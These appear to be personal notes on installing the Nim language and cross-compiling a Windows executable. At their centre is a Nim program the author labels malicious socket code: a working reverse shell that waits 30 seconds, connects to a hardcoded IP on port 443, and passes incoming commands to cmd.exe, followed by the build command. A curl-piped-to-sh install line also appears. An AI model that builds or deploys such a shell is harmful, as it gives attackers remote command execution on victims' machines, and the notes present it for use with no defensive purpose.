 ```yaml
---
description: 05-11-2023
---
```


# Nim

## Installation

```
curl https://nim-lang.org/choosenim/init.sh -sSf | sh
```

chown:

```
sudo chown -R $(whoami) /opt/homebrew/Cellar/mingw-w64/11.0.0/
```

Add to PATH:

```
fish_add_path /opt/homebrew/bin/
export PATH=/opt/homebrew/bin/
```

## Example Build

test.nim (malicious socket code):

```
import net, osproc, strformat, times

let now1 = now() + 30.seconds
var i = 1

while now() <= now1:
    var i = i + 1

let
    ip = "192.168.1.119"
    port = 443
    sock = newSocket()

sock.connect(ip, Port(port))

let prompt = "Nim-Shell> "
while true:
    send(sock, prompt)
    let bad = recvLine(sock)
    let cmd = execProcess(fmt"cmd.exe /C " & bad)
    send(sock, cmd)
```

Build:

```
nim c -d:x86_64-w64-mingw32-gcc test.nim
```

You should then see <mark style="color:blue;">**SuccessX**</mark>:

<figure><img src="../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

You will then have an executable test binary.

## Testing code (no compile)

```
nim c --run test.nim
```
